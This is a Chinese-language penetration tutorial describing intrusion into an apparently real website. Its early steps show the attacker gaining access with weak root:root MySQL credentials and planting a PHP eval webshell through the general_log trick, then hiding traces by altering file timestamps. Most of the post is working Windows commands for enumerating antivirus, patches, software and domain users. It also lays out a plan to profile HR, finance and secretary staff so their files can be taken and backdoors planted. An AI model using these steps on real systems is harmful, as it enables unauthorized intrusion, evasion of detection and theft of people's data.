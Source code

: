 # 0x01 前情提要

在内网环境中，信息收集尤为重要。（通过多种协议）探测内网存活主机也属于信息收集的一部分。


案例如下：**非 root/administrator 下主动信息搜集**


此 webshell 这样获取的：
1、通过扫端口，发现某站 8980 端口存在 http 服务；
2、在此端口爆破目录，发现存在 phpStudy 探针文件，获取 web 目录的绝对路径； `D:/phpStudy4IIS/WWW`。在此探针文件下用 `root`:`root` 弱密码进行 MYSQL 检测，发现尝试成功；
3、另外此端口还有 phpMyAdmin 目录，用 `root`:`root` 登陆进去；
4、使用 `general_log` 方法对 mysql 写入一句话木马：
``` mysql
set global general_log='on' 
set global general_log_file='D:\\phpStudy4IIS\\WWW\\slow_log.php' #一定要使用 '\\'
select "<?php eval($_POST[angel])?>"
```
5、菜刀连 http://domain:8980/log.php angel
6、连上之后做一些基本的隐蔽目录、更改文件时间等隐蔽化操作。


当前权限为：
![title](https://leanote.com/api/file/getImage?fileId=5dd7a192ab64414b9f001855)


在得到一个 webshell 时，非 root/administrator 情况下对目标信息搜集至关重要，它会影响后期的渗透是否顺利，以及渗透方向。 


# 0x02 信息收集

## 1、获取内网 IP

![title](https://leanote.com/api/file/getImage?fileId=5dd7a3a8ab64414b9f001b0c)

注：有的目标主机会分配 2 个内网 IP ，如 10.x.x.x 与 192.168.x.x。

## 2、获取服务软件与杀软

![title](https://leanote.com/api/file/getImage?fileId=5dd7a73bab64414d9f001c0d)

![title](https://leanote.com/api/file/getImage?fileId=5dd7a6daab64414b9f001b4c)

得知部分服务软件，以及杀毒软件 360 全套，一般内网中为杀毒为集体一致。


查看杀软的四种方法：

一、 获取防病毒软件 Windows 命令行

```
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

![title](https://leanote.com/api/file/getImage?fileId=5e0576f2ab644136ef0018ad)

二、看服务：`net start` 命令

![title](https://leanote.com/api/file/getImage?fileId=5e0316e4ab644170cf0025e0)
![title](https://leanote.com/api/file/getImage?fileId=5e031749ab644170cf0025f2)

其中的`主动防御`就是 360。

三、看进程：`tasklist /svc`

![title](https://leanote.com/api/file/getImage?fileId=5e031806ab644172cb0026c5)
![title](https://leanote.com/api/file/getImage?fileId=5e03188cab644170cf002639)

其中的 `ZhuDongFangYu.exe` 就是360。

看上面两者合并。

四、看 `Program Files` 路径下的安装目录

就是看 `C:\Program Files (x86)` 和 `C:\Program Files` 这两个路径下的安装目录有没有杀软。

![title](https://leanote.com/api/file/getImage?fileId=5e0318edab644172cb0026e6)

## 3、搜集补丁更新频率，以及系统状况

![title](https://leanote.com/api/file/getImage?fileId=5dd7b172ab64414b9f001c12)
![title](https://leanote.com/api/file/getImage?fileId=5dd7a86bab64414b9f001b68)

如果目标机器上补丁过多，加上杀软齐全，就应该考虑放弃 exp 提权。
原因1：需要更多的时间消耗在对反病毒软件对抗。<br> 原因2：目标机补丁过多，需要消耗更多的时间。<br> 原因3：可能因为某些 exp 导致蓝屏从而丢失权限。<br>

此种情况下示例提权思路：如目标机器上安装了 mysql，并与内网其中一台建立大量连接。就可以考虑 mysql udf 提权。

单个补丁安装情况查询：
``` shell
systeminfo>snowming.txt&(for %i in (KB4519572  KB4287903 KB4287904) do @type snowming.txt|@find /i  "%i"|| @echo  no this padding: %i)&del /f /q /a snowming.txt
```

![title](https://leanote.com/api/file/getImage?fileId=5dd7ad4cab64414b9f001bbb)
注：以上需要在可写目录执行。需要临时生成 snowming.txt，以上补丁编号请根据环境来增、删。


## 4、搜集安装软件以及版本，路径等

``` shell
wmic product > insformation.txt
```
![title](https://leanote.com/api/file/getImage?fileId=5dd7b033ab64414b9f001c03)

``` shell
powershell "Get-WmiObject -class Win32_Product |Select-Object -Property name,version"
```


![title](https://leanote.com/api/file/getImage?fileId=5dd7b0f7ab64414d9f001cb3)

## 5、获取域组、用户


获取全部域用户：

``` shell
net user /domain
```
![title](https://leanote.com/api/file/getImage?fileId=5dd7b31fab64414d9f001ce1)

获取域分组：

``` shell
net group /domain
```
![title](https://leanote.com/api/file/getImage?fileId=5dd7b45aab64414d9f001cea)

在域组中，其中有几个组需要特别关注： 
1. IT组/研发组：他们掌握在大量的内网密码，数据库密码等。 
2. 秘书组：他们掌握着大量的目标机构的内部传达文件，为信息分析业务提供信息，在反馈给技术业务来确定渗透方向。 
3. Domain Admins 组：root/administrator 
4. 财务组：他们掌握着大量的资金往来与目标企业的规划发展，并且可以通过资金，来判断出目标组织的整体架构。
5. CXX 组，如ceo，cto，coo等。不同的目标组织名字不同，如部长，厂长，经理等。
6. HR 组：他们的电脑中有大量人事信息，商业秘密等。


以 Domain Admins 组为例，开始规划信息探测等级：


1. 【等级1】确定某部门具体人员数量；
2. 【等级2】确定该部门的英文用户名的具体信息，如姓名，联系方式，邮箱，职务等。以便确定下一步攻击方向；
3. 【等级3】分别探测`白天`/`夜间`内网中所存活机器并且对应IP地址；
4. 【等级4】对应人员的工作机内网IP，以及工作时间；
5. 【等级5】根据信息业务反馈，制定目标安全时间，以便拖拽指定人员文件，或登录目标机器；
6. 【等级6】制定目标机器后渗透与持续渗透的方式以及后门。

**探测等级1：**

```
net group "Domain Admins" /domain
```
![title](https://leanote.com/api/file/getImage?fileId=5dd7b6b7ab64414b9f001c58)

**探测等级2：**

``` shell
for /f %i in (1.txt) do net user %i /domain >>user.txt
```

注：`1.txt` 为上一步收集到的用户名：

![title](https://leanote.com/api/file/getImage?fileId=5dd7ba19ab64414b9f001c7f)

![title](https://leanote.com/api/file/getImage?fileId=5dd7ba82ab64414b9f001c82)


后面可以结合 `meterpreter` 获取反弹 shell、测试内网段在线主机、获取主机操作系统信息、获取端口服务开放情况等。

注：可以在不同的时段（白天/晚上）探测内网段在线主机。


# 0x03 总结


本文中探讨了非 root/administrator 用户下的主动信息搜集。



在 `iis appool\defaultappool` 的权限下，逐步获取了如下信息：

1. 该目标内网分配段
2. 安装的软件
3. 杀毒软件情况
4. 端口开放情况
5. 运行的服务
6. 补丁情况
7. 管理员上线操作时间段
8. 域用户详细信息（英文 user 对应的职务，姓名等）
9. 根据域内分组可以进一步确定攻击方向。如秘书组，如 hr 组等。

进一步提权可以结合运行的服务，如 mysql 提权。


-----------------------

参考资料：

1. [渗透的本质是信息搜集（第五十二课））.pdf](https://github.com/Micropoor/Micro8/blob/master/%E6%B8%97%E9%80%8F%E7%9A%84%E6%9C%AC%E8%B4%A8%E6%98%AF%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%EF%BC%88%E7%AC%AC%E4%BA%94%E5%8D%81%E4%BA%8C%E8%AF%BE%EF%BC%89%EF%BC%89.pdf)，Github，Micropoor，2019年2月18日 

